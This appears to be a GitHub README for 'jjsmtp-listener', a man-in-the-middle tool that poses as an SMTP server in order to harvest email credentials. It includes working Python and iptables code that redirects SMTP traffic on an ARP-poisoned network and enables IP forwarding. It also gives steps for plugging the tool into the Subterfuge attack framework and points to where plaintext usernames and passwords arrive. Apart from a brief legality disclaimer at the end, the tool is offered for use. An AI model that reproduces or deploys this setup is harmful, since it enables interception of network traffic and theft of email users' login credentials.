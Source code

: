 # jjsmtp-listener

_mitm-smtp-listener_ acts as a SMTP-server with a self-signed certificate, however behaves differently at certain points of the ESMTP protocol in order to eavesdrop on the username and password.  
It was originally developed for man-in-the-middle attacks on networks and works well with [Subterfuge](http://code.google.com/p/subterfuge/), an automated man-in-the-middle attack framework.

---

## Setup

The following steps are explained for Subterfuge, however should work in any other man-in-the-middle attack scenario.
Assuming we have an ARP poisoned network in which all traffic passes our machine, we have to redirect all TCP traffic bound for SMTP ports (25, 465, 587) to our twisted reactor.
For Subterfuge, do this using `iptables` in the file `attackctrl.py`. The function `iptablesconfig` should look like this:


```python
def iptablesconfig():
    os.system('iptables -F')
    os.system('iptables -X')
    os.system('iptables -t nat -F')
    os.system('iptables -t nat -X')
    os.system('iptables -t mangle -F')
    os.system('iptables -t mangle -X')
    os.system('iptables -P INPUT ACCEPT')
    os.system('iptables -P FORWARD ACCEPT')
    os.system('iptables -P OUTPUT ACCEPT')
    time.sleep(1)
    os.system('iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 	10000')

   	# THIS IS WHERE THE SMTP PORTS ARE ROUTED TO OUR REACTOR 
    print "SMTP Prerouting configuration"
    os.system('iptables -t nat -A PREROUTING -p tcp --dport 25 -j REDIRECT --to-port    9998')
    os.system('iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-port    9997')
    os.system('iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-port    9996')
   
    time.sleep(1)
    print "Iptables Prerouting Configured\n"
    
    print 'Configuring System...'
    os.system('sysctl -w net.ipv4.ip_forward=1')
    print "IP Forwarding Enabled."
```

Next, when everything has been set up, import jjmail  
`from jjmail import jjsmtp`  
and tell it to set up everything:  
`jjsmtp.configureSMTPTraffic()`  

In Subterfuge, this is done in `sslstrip.py`, right after `reactor.listenTCP(int(listenPort), strippingFactory)`.


## Relaying mails

There is no implementation of listening to which SMTP-server any mail is actually bound for. Thus all messages must be sent via a relay server of your choice. For this, enter your credentials in lines __33 to 36__ in `jjsmtp.py`.

## Getting the credentials

Raw-Text username rolls in on line 161, raw-text password rolls in on line 166. Do whatever you want, but please be careful!

## ATTENTION

Performing MITM attacks on networks is an illegal act. Use only for testing/academic purposes.

